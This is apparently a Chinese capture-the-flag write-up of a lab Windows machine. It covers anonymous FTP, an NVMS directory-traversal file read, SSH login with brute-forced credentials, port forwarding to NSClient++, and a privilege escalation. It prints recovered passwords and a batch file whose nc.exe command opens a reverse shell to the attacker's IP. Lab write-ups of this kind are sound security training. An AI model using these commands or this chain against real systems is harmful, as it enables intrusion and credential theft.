---

---


# nmap







## 21端口

ftp存在匿名登录

用户名：Anonymous/anonymous 密码：空

`Users`下有两个文件夹，将内容下载到本地查看



有个说明passwords在C:\Users\Nathan\Desktop\Passwords.txt下

在ftp中得到的用户名

```
Nathan
Regards
Administer #windows管理员用户名
Nadine
```


## 80端口



NVMS存在远程目录读取漏洞，读取内容与POC所给出的内容一致，说明存在该漏洞，尝试读取`password.txt`



windows\win.ini目录也是在C盘下,windows目录和User目录同级，成功读到Password.txt



```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5
```

尝试使用这些密码和ftp中得到的用户名爆破smb和ssh的账号密码



```
Nadine:L1k3B1gBut7s@W0rk
```



```
Nadine:L1k3B1gBut7s@W0rk 
```

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184
```



## 8443端口/提权



NSClient++默认目录在`C:\Program Files\NSClient++`在配置文件 `nsclient.ini`中有password，并且运行在靶机本地，需要端口转发到攻击机去访问这个服务

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```



```txt
password = ew2x6SsGTxjRwXOT
```



搜索该版本漏洞，该版本存在本地提权漏洞



先上传`nc.exe`和`exp.bat`

exp.bat的内容就是运行nc进行shell反弹

```bash
@echo off
c:\Users\Nadine\nc.exe 10.10.16.3 443 -e cmd.exe
```



然后添加一个运行脚本运行`exp.bat`



添加一个定时任务



等一会就可以得到管理员的shell